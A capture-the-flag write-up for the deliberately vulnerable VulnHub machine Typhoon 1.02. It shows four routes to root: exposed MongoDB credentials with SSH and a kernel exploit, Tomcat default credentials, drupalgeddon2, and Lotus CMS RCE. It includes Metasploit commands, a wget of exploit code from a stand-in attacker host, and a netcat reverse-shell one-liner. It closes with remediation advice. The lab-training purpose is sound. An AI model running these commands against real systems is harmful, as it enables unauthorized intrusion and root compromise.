




# Typhoon: 1.02 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.101 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux (Ubuntu 14.04) |
| **Root Flag** | /root/root-flag |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/typhoon-102,267/) |

## Attack Summary

Intentionally vulnerable multi-service VM. Four independent root paths: (1) MongoDB blank creds → SSH → kernel exploit; (2) Tomcat default creds → WAR deploy → writable root script; (3) Drupal RCE (drupalgeddon2); (4) Lotus CMS RCE.

## Methodology

1. Network discovery and full port scan
2. Path A: MongoDB admin → credentials → SSH → kernel exploit (EDB-37292)
3. Path B: Tomcat Manager default creds → Metasploit upload → cron/script injection
4. Path C: Drupal drupalgeddon2
5. Path D: Lotus CMS lcms_php_exec

---

## Step 1: Network Discovery and Scan

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.101
```

Open ports: 21 (FTP), 22 (SSH), 25 (SMTP), 53 (DNS), 80 (HTTP), 110 (POP3), 139/445 (SMB), 3306 (MySQL), 5432 (PostgreSQL), 8080 (Tomcat).

Check `robots.txt`:

```
http://192.168.1.101/robots.txt
# Entry: /monoadmin/
```



---

## Path A: MongoDB → SSH → Kernel Exploit

### Step 2: MongoDB Credential Extraction

Browse to `/monoadmin/`. Switch to the `credentials` database and open the credential records:

```
http://192.168.1.101/monoadmin/
```

Credentials: **typhoon : 789456123**


### Step 3: SSH Login

```bash
ssh typhoon@192.168.1.101
# password: 789456123
uname -a
# Ubuntu 14.04 → vulnerable to overlayfs (CVE-2015-1328) or ofs (EDB-37292)
```

### Step 4: Kernel Exploit (EDB-37292)

On attacker — serve the exploit:

```bash
searchsploit -m 37292.c
python3 -m http.server 80
```

On target:

```bash
cd /tmp
wget http://ATTACKER_IP/37292.c
gcc 37292.c -o rootshell
chmod +x rootshell
./rootshell
id
# uid=0(root)
cat /root/root-flag
```



---

## Path B: Tomcat Manager → Script Injection

### Step 5: Tomcat Default Credentials

Browse to `http://192.168.1.101:8080/manager`. Authenticate with **tomcat : tomcat**.

There is also a file `/tab/script.sh` owned by root with world-writable permissions.



### Step 6: Metasploit WAR Upload

```bash
msfconsole
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS 192.168.1.101
set RPORT 8080
set HttpUsername tomcat
set HttpPassword tomcat
run
```

Meterpreter session opens as `tomcat`. Now overwrite the root-writable script:

```bash
echo "mkfifo /tmp/vvwjo; nc ATTACKER_IP 1234 0</tmp/vvwjo | /bin/sh >/tmp/vvwjo 2>&1; rm /tmp/vvwjo" > /tab/script.sh
```

Start listener and wait for the script execution:

```bash
nc -lvp 1234
# root shell received
```

---

## Path C: Drupal drupalgeddon2

### Step 7: Directory Enumeration

```bash
dirb http://192.168.1.101/
# Found: /drupal and /cms
```



### Step 8: Exploit Drupal

```bash
msfconsole
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS 192.168.1.101
set TARGETURI /drupal
run
```

Meterpreter session as `www-data`. Follow Path A post-exploitation for kernel escalation.

---

## Path D: Lotus CMS RCE

```bash
msfconsole
use exploit/multi/http/lcms_php_exec
set RHOSTS 192.168.1.101
set URI /cms/
run
```

Meterpreter as `www-data`. Escalate via kernel exploit as in Path A.

---

## Lessons Learned

1. **MongoDB without authentication** — database admin panel exposed with no credentials
2. **Credential reuse** — web app credentials reused for SSH
3. **Outdated kernel (Ubuntu 14.04)** — vulnerable to overlayfs LPE (CVE-2015-1328)
4. **Default Tomcat credentials** — `tomcat:tomcat` left unchanged
5. **World-writable root-executed scripts** — any file run by root with open permissions is a privesc path
6. **Multiple unpatched CMSes** — Drupal and Lotus CMS both exploitable via public Metasploit modules

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| MongoDB no-auth | Enable authentication; bind to localhost |
| Default Tomcat creds | Change default credentials immediately after installation |
| Kernel CVE-2015-1328 | Update to Ubuntu 16.04+ or apply kernel patches |
| World-writable root scripts | Audit file permissions; use `chmod 700` for root-executed files |
| Drupal/Lotus CMS unpatched | Keep CMS installations updated; remove unused apps |
